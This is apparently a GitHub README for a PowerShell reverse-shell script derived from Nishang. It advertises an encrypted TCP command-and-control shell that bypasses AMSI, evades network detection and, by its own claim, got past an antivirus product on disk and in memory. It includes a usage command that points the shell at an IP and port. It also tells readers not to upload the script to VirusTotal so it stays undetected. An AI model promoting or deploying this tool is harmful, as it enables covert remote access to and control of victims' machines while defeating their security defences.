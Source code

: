 # RevershellTCPEncrypt_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>

```sh
.\RevershellTCPEncrypt_BypassAMSI.ps1 192.168.1.6 443
```

This shell allows you to encrypt your C2, at the network transfer level at the transport and application layers mitigating the detection of rule anomalies of some IPs/IDs.<br>

A proof of concept was carried out in several AVs, in the photo I avoided a S0ph0s on disk and memory.

![image](https://user-images.githubusercontent.com/66162160/206824568-3d5d7e93-f0b3-4898-927a-c45afdb48882.png)

## ! Do not upload to total virus!
